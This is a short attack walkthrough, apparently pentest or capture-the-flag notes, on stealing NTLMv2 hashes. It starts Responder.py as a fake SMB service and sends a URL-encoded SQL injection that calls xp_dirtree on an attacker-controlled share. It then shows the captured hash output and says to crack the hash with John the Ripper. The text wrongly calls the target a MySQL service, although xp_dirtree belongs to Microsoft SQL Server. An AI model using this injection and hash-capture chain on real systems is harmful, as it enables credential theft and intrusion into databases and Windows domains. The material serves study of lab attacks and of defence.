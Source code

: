 # xp_dirtree and Responder.py
We can use Responder.py to act as a fake SMB service which will accept connections and store the user's hash for us to crack using John the Ripper.

First we need to start Responder,
```
root@attacker-machine:~# python Responder.py
...(SNIPPED) ...
[+] Listening for events...
```
Next, we perfom a simple `EXEC` command with `xp_dirtree` using SQL Injection fo a MySQL service like so,
```
https://(TARGET IP ADDRESS)/path/to/Some.aspx?ParamId=0%20EXEC%20master..xp_dirtree%20%27\\(ATTACKER IP ADDRESS)\foo%27%20--
```
And we will get the hash for the user passed to Responder.py
```
[SMB] NTLMv2-SSP Client   : (TARGET IP ADDRESS)
[SMB] NTLMv2-SSP Username : (TARGET DOMAIN)\(TARGET USER)
[SMB] NTLMv2-SSP Hash     : (TARGET USER)::(TARGET DOMAIN):1122334455667788:EA0...
...(SNIPPED)...
[SMB] Requested Share     : \\(ATTACKER IP)\IPC$
[*] Skipping previously captured hash for GIDDY\Stacy
[SMB] Requested Share     : \\(ATTACKER IP)\FOO
```
Copy the NTLMv2-SSP Hash string starting with the target user and save to a file.

Then, simply use John the Ripper to crack the hash.
